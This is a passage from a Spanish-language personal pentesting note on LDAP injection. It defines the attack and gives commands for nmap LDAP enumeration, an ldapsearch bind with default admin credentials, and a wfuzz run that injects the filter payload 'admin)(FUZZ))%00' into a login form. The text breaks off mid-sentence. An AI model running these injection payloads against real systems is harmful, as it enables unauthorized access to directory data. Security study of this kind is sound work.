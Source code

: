 #LDAPi #OWASP #Explotacion 

#### Definición
>Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.
>
  La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Para enumerarlo lo podemos hacer los los scripts que trae [[NMAP]]
`nmap -p- --script ldap\* <IP_Objetivo>  `

Nos dará información sobre el servicio aportándonos el `dc`, *LDAP* tiene un usuario llamado `admin` por defecto para poder sacar información sobre el usuario podemos usar la herramienta de [[LDAPSEARCH]]
`ldapsearch -x -H ldap://<IP_Victima> -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'`

Para hacer fuerza bruta para la enumeración de usuarios, primero habría que hacer un descubrimiento de atributos.
Para eso usaremos [[WFUZZ]]

`wfuzz -c -w /home/jalag/Workzone/Herramientas/Wordlists/Seclist/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ))%00&password=*&login=1&submit=Submit' http://<IP_Victima>` 
###### Desde la parte de 'user_id ....' Es el dato enviado por POST en BurpSuite

Una vez obtenido por ejemplo el atributo de 